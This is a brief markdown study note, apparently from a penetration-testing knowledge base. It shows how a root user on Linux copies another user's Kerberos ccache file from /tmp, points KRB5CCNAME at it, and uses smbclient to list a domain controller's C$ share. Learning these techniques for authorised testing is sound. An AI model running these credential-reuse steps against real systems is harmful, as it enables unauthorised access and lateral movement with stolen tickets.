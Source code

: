```yaml
---
tags:
  - Kerberos
  - Post-Exploitation
  - OperatingSystems
  - Linux
  - Concepts
  - Information
---
```

To abuse a ccache file, all we need is read privileges on the file. These files, located in `/tmp`, can only be read by the user who created them, but if we gain root access, we could use them.
#### Importing the ccache File into our Current Session

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
```
```shell-session
cp /tmp/krb5cc_647401106_I8I133 .
```
```shell-session
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```
```shell-session
klist
```

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB]]

```shell-session
smbclient //dc01/C$ -k -c ls -no-pass
```